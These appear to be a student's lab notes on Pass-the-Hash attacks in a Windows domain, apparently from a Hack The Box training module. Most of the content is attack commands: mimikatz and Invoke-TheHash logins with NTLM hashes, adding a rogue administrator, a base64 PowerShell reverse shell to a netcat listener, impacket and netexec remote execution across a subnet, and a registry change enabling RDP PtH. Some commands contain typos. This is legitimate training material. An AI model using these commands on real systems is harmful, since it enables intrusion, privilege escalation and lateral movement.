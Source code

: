 
 mimikatz:
### pass the hash as to create shell in the context of another domain user and access a private share:
this situation where even as whoami -> david had no acesss to //dc01/david

```cmd-session
c:\tools> mimikatz.exe privilege::debug "sekurlsa::pth /user:david /ntlmm rc4>:c39f2beb3d2ec06a62cb887fb391dee0 /domain:inlanefreight.htb /run:cmd.exe" exit
```
![[Pasted image 20250625150700.png]]


## PTH with powershell

#### Invoke-TheHash tool:

create and add a user to admins group on DC
```
PS c:\htb> cd C:\tools\Invoke-TheHash\
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1
PS c:\tools\Invoke-TheHash> Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```

#### reverse shell
```powershell
PS C:\tools> .\nc.exe -lvnp 8001

listening on [any] 8001 ...
```

get a reverse shell with https://revshells.com
```powershell
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1
PS c:\tools\Invoke-TheHash> Invoke-WMIExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "powershell -e <b64shell>
```
![[Pasted image 20250625131506.png]]

#### with impacket on linux
```shell-session
$ impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
```
There are several other tools in the Impacket toolkit we can use for command execution using Pass the Hash attacks, such as:

- [impacket-wmiexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py)
- [impacket-atexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py)
- [impacket-smbexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py)

### netexec
```shell-session
netexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
```

If we want to perform the same actions but attempt to authenticate to each host in a subnet using the local administrator password hash, we could add `--local-auth` to our command. This method is helpful if we obtain a local administrator hash by dumping the local SAM database on one host and want to check how many (if any) other hosts we can access due to local admin password re-use. If we see `Pwn3d!`, it means that the user is a local administrator on the target computer. We can use the option `-x` to execute commands. It is common to see password reuse against many hosts in the same subnet.


a great recommendation for the customer is to implement the [Local Administrator Password Solution (LAPS)](https://www.microsoft.com/en-us/download/details.aspx?id=46899), which randomizes the local administrator password and can be configured to have it rotate on a fixed interval.


# EXECUTE COMMANDS WITH NETEXEC
```shell-session
$ netexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami
```

We can perform an RDP PtH attack to gain GUI access to the target system using tools like `xfreerdp`.

There are a few caveats to this attack:

- `Restricted Admin Mode`, which is disabled by default, should be enabled on the target host; otherwise, you will be presented with the following error:

![Error message: Account restrictions prevent signing in due to blank passwords, limited sign-in times, or policy restrictions.](https://academy.hackthebox.com/storage/modules/308/img/rdp_session-4.png)

This can be enabled by adding a new registry key `DisableRestrictedAdmin` (REG_DWORD) under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa` with the value of 0. It can be done using the following command:

#### Enable Restricted Admin Mode to allow logging as admin

```cmd-session
c:\tools> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

![Registry Editor showing path to Lsa with DisableRestrictedAdmin set to 0.](https://academy.hackthebox.com/storage/modules/308/img/rdp_session-5.png)

Once the registry key is added, we can use `xfreerdp` with the option `/pth` to gain RDP access:
## UAC limits Pass the Hash for local accounts

UAC (User Account Control) limits local users' ability to perform remote administration operations. When the registry key `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` is set to 0, it means that the built-in local admin account (RID-500, "Administrator") is the only local account allowed to perform remote administration tasks. Setting it to 1 allows the other local admins as well.

**Note:** There is one exception, if the registry key `FilterAdministratorToken` (disabled by default) is enabled (value 1), the RID 500 account (even if it is renamed) is enrolled in UAC protection. This means that remote PTH will fail against the machine when using that account.

These settings are only for local administrative accounts. If we get access to a domain account with administrative rights on a computer, we can still use Pass the Hash with that computer. If you want to learn more about LocalAccountTokenFilterPolicy, you can read Will Schroeder's blog post [Pass-the-Hash Is Dead: Long Live LocalAccountTokenFilterPolicy](https://posts.specterops.io/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy-506c25a7c167).